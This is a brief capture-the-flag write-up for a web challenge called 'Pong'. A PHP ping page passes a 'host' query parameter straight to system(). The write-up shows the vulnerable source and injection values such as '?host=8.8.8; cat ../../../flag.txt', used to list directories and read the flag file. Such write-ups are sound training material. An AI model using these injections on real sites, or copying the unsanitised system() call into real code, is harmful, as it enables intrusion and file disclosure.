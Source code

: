 # Pong

### 50 Points

## Information
    Author: skyv3il

    Some random website that can ping hosts.
    What's the flag ?


 

## Steps done

1. We visited the url and it returned the message `Command executed: ping -c 2 127.0.0.1` 
2. After some tries, we sent the query parameter host with value 8.8.8.8 `?host=8.8.8` and the response was `Command executed: ping -c 2 8.8.8.8`
3. After it we tried to inject a command `ls -la` `?host=8.8.8; ls -la` and the reponse contained the directory listing, with the php file 
```php
    <pre><?php


    if(isset($_GET['host'])){
        echo "<pre>";
        system("ping -c 2 " . $_GET['host']);
        echo "</pre>";
    }
    else{
        header('Location: '.$_SERVER['PHP_SELF']."?host=127.0.0.1");
    die;
    }
```

4. We checked upper directories with `ls -la ../` and we found a file called flag.txt on  `../../../flag.txt`
5. We printed the content of the file with `?host=8.8.8; cat ../../../flag.txt` and we obtained the flag  `TFCCTF{C0mm4nd_1nj3c5i0n_1s_E4sy}`
